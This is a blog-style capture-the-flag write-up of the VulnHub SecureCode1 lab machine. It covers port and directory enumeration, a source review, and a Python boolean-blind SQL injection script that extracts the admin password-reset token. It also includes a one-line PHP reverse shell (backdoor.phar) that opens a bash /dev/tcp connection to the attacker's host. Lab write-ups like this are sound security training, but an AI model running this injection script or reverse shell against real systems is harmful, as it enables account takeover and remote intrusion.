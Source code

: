 ```yaml
---
layout: post
title:  VulnHub SecureCode1 Write-Up
description: OSWE-like vulnerable machine write-up.
keywords: [vulnhub, ctf, securecode1, writeup, write up, oswe, awae, source code analysis]
image: /assets/400x400.jpg
author: thr3athunt3r
date:   2021-05-27 02:00:00 +0800
categories: ctf
---
```


### 1. Service Discovery: 
#### Basic port knocking on all ports
```bash
nmap -p- -v 192.168.139.143
```

![](/assets/securecode1/securecode1_nmap_1.png)

#### Port service enumeration
```bash
nmap -sC -sV -O -Pn -o nmap.txt 192.168.139.143
```

![](/assets/securecode1/securecode1_nmap_2.png)

### 2. Content Discovery: 
#### Default root directory content on http service
- We can determine the server has php running on backend by appending `index.php` on root directory.

![](/assets/securecode1/securecode1_home.png)

#### Brute force contents on target server
```bash
ffuf -u http://192.168.139.143/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 -e .php,.html,.rar,.7zip,.tar.gz,.gz,.zip,.bak -o ffuf.txt -fs 3650
```

![](/assets/securecode1/securecode1_ffuf.png)

#### Valid users can be enumerated through `resetPassword.php`
- `admin` user enumerated, password has been reset

![](/assets/securecode1/securecode1_reset2.png)

![](/assets/securecode1/securecode1_reset.png)

![](/assets/securecode1/securecode1_reset_pw.png)

#### Basic authentication tests attempted with username `admin` but nothing works
![](/assets/securecode1/securecode1_test.png)

#### Download `source_code.zip` that we found earlier
![](/assets/securecode1/securecode1_download.png)

### 3. Source Code Analysis: 
#### Unzipped content structure of `source_code.zip`
![](/assets/securecode1/securecode1_unzipped.png)

#### `/db.sql`
- One of the tables in database named `user`
- `user` table has these columns: `id`, `username`, `password`, `email`, `gender`, `id_level`, `token`

![](/assets/securecode1/securecode1_db.png)

#### `/login/resetPassword.php`
- A token with 15 alphanumeric characters was generated and sent to admin's mailbox
- We can reset admin's password via `http://192.168.139.143/login/doResetPassword.php?token=<TOKEN>`

![](/assets/securecode1/securecode1_reset_php.png)

#### `/item/viewItem.php`
- Most of the contents in the server require authenticated access, except this
- `id` paramerter vulnerable to SQL injection
- `mysqli_real_escape_string` method only sanitize some special characters
- User input was not fully sanitized, we can still perform SQL injection without any special characters

![](/assets/securecode1/securecode1_view.png)

#### `/item/updateItem.php`
- PHP file upload is possible with .phar extension

![](/assets/securecode1/securecode1_update.png)

### 4. Testing SQL Injection: 
#### Boolean-based blind SQL 
- if *TRUE*

![](/assets/securecode1/securecode1_burp_1.png)

- if *FALSE*

![](/assets/securecode1/securecode1_burp_2.png)

#### Extract admin's password reset `token` from `user` table
- `exploit.py`

```python
#!/usr/bin/python3
import requests

token = ''
position = 1

while(1):
    for i in range(0,255):
        url = 'http://192.168.139.144/item/viewItem.php?id=1+AND+(SELECT+IF(1,(ASCII(SUBSTRING((SELECT+token+FROM+user+where+id=1),'
        + str(position) + ',1))=' + str(i) + '),0))'
        r = requests.get(url)
        if r.status_code == 404:            
            token = token+str(chr(i))
            position = position + 1
            print(token)
    if len(token) == 15:        
        break
```
![](/assets/securecode1/securecode1_exploit.png)

#### Reset admin's password with that token

![](/assets/securecode1/securecode1_change_pw.png)

#### Logged in with new password and we got our first flag

![](/assets/securecode1/securecode1_login.png)

### 5. Insecure File Upload to RCE: 
#### Create a simple php reverse web shell
- `backdoor.phar`

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.139.132/3344 0>&1'"); ?>
```

#### Upload the web shell by editing any of the existing items
![](/assets/securecode1/securecode1_shell.png)

#### Listen port on our attacker machine
![](/assets/securecode1/securecode1_listen.png)

#### Refresh the web page and we've got our shell
![](/assets/securecode1/securecode1_refresh.png)

![](/assets/securecode1/securecode1_enter.png)

#### Also the second flag
![](/assets/securecode1/securecode1_flag2.png)

### 6. Finished

*Only 2 flags in this machine.*
<br>
<br>
<br>

